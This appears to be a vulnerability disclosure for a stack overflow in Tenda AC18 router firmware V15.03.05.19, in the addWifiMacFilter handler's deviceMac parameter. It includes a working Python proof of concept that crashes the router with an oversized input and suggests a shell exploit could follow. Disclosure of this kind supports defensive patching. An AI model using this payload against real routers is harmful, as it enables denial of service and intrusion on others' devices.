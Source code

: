# Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/addWifiMacFilter.        The contents obtained by the deviceMac parameter are passed to v11, and then the contents matched by v11  and put into the s without size checking, resulting in a stack overflow.

![](img/2.png#center)

## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/addWifiMacFilter'

headers = {"Cookie": "password=You cookie"}
data = {
    'deviceMac': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
